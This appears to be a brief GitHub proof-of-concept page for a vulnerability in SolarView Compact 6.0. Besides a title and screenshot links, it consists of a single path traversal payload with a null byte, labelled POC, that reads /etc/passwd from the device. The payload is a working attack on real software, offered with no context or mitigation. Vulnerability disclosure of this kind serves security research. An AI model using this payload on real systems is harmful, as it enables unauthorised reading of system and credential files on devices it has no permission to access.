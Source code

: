 # SolarView_Compact_6.0_-
###

![image](https://user-images.githubusercontent.com/72059221/169178411-575f2e6d-15a4-4e24-8c02-fe304cd13f7f.png)

![image](https://user-images.githubusercontent.com/72059221/169178472-6e23e634-6aef-4812-ac96-ee40c545f293.png)

 ### POC
 ```
 ../../../../../../../etc/passwd%00.csv
 ```

![6UbozyMqlQ](https://user-images.githubusercontent.com/72059221/169178359-40449bf5-9981-4e15-a05e-c71fd8f5670a.jpg)
